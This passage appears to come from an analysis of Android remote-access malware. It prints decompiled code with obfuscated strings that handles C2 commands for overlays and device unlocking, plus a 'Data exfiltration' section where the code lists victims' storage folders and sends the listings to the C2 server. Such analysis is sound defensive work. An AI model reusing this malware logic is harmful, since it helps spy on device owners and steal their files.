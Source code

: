 ```cs
                    goto label_5;  // device_unlock
                }

                JSONObject jSONObject9 = new JSONObject(s2);
                this.a.e(this, this.b.aO, jSONObject9.getString(this.a("ZWVkOTM3YTE=")));  // fake
                this.a.e(this, this.b.aM, jSONObject9.getString(this.a("ZTBkMTM4YTBkYjM4")));  // hidden
                this.a.e(this, this.b.aN, jSONObject9.getString(this.a("ZWFkNDMzYTdkNTNmNmYzMg==")));  // blocking
                goto label_553;

            catch(Exception unused_ex) {
            }
```


# Data exfiltration

The malware has the ability to exfiltrate the data and sending specific files to the C2 server from the vitim's device. 

```cs
if(s2.contains(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="))) {  // open_folder
                    String s3 = new JSONObject(s2).getString(this.a("ZTdjODM5YWFlMTMwNmUzOWFkYTkwOQ=="));  // open_folder
                    if(s3.equals(this.a("ZjY5Nw=="))) {  // ~/
                        s3 = Environment.getExternalStorageDirectory().getAbsolutePath();
                    }

                    String[] arr_s = this.a.b(new File(s3));
                    try {
                        JSONObject jSONObject1 = new JSONObject();
                        jSONObject1.put(this.a("ZWJkNTM4"), this.a("ZTljYTJlYTVjNzA5NjczY2E1YTkwODZjNTgyNjc3Y2JiMGNh"));  // array_files_folder
                                                                                                                          // cmd
                        jSONObject1.put(this.a("ZWNkMTJl"), i.e(s3));  // dir
                        jSONObject1.put(this.a("ZWVkNzMwYTBkYjI0NzI="), i.e(arr_s[0]));  // folders
                        jSONObject1.put(this.a("ZWVkMTMwYTFjZA=="), i.e(arr_s[1]));  // files
                        String s4 = jSONObject1.toString().replace("\\n", "");
                        this.a.a(this.a("YzJlYjEzOGFlMTA1NDQxYjhk"), s4);  // JSON_SEND
                        this.a.i(this, this.b.H + this.a.h(s4));
                        goto label_5;
                    }
                    catch(JSONException unused_ex) {
                    }

                    this.a.a(this.c, this.a("Y2RjYTJlYWJjYzc2NmIyNmE2YTI1YjQxNWYzZDNiYzVhNmQ3OGNjNDk0YjY5NjM0Y2NlYWZlMTEzOTI2MDk0ODMxOGZkNzQ5OThkZQ=="));  // Error json rat jsonRequest open_folder
                    goto label_5;
                }

                if(!s2.contains(this.a("ZmRjODMwYWJkZjMyNjgzYmFkOTMxZDVhNTIyYw=="))) {  // uploadind_file
                    goto label_273;  // uploadind_file
                }

                jSONObject2 = new JSONObject(s2);
            
```
